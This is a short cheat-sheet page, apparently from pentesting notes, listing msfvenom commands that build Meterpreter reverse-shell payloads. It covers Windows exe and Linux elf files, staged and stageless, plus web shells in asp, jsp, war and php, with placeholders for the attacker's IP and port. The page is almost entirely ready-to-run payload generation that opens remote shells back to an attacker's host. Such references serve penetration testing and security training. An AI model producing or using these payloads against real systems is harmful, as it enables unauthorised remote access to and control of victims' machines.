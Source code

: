 #### Stageless Payloads for Windows

```bash
# x86
msfvenom -p windows/meterpreter_reverse_tcp LHOST=<IP> LPORT=<PORT> -f exe > shell-x86.exe
# x64
msfvenom -p windows/x64/meterpreter_reverse_tcp LHOST=<IP> LPORT=<PORT> -f exe > shell-x64.exe
```

#### Staged Payloads for Linux

```bash
# x86
msfvenom -p linux/x86/meterpreter/reverse_tcp LHOST=<IP> LPORT=<PORT> -f elf > shell-x86.elf
# x64
msfvenom -p linux/x64/meterpreter/reverse_tcp LHOST=<IP> LPORT=<PORT> -f elf > shell-x64.elf
```

#### Stageless Payloads for Linux

```bash
# x86
msfvenom -p linux/x86/meterpreter_reverse_tcp LHOST=<IP> LPORT=<PORT> -f elf > shell-x86.elf
# x64
msfvenom -p linux/x64/meterpreter_reverse_tcp LHOST=<IP> LPORT=<PORT> -f elf > shell-x64.elf
```

### Meterpreter Web Payloads

```bash
# asp
msfvenom -p windows/meterpreter/reverse_tcp LHOST=<IP> LPORT=<PORT> -f asp > shell.asp
# jsp
msfvenom -p java/jsp_shell_reverse_tcp LHOST=<IP> LPORT=<PORT> -f raw > example.jsp
# war
msfvenom -p java/jsp_shell_reverse_tcp LHOST=<IP> LPORT=<PORT> -f war > example.war
# php
msfvenom -p php/meterpreter_reverse_tcp LHOST=<IP> LPORT=<PORT> -f raw > shell.php
msfvenom -p php/meterpreter/reverse_tcp LHOST=<IP> LPORT=<PORT> -f raw > shell.php
```

### Resources

#### Payloads

{% embed url="https://hannahsuarez.github.io/2017/msfvenom-payloads" %}
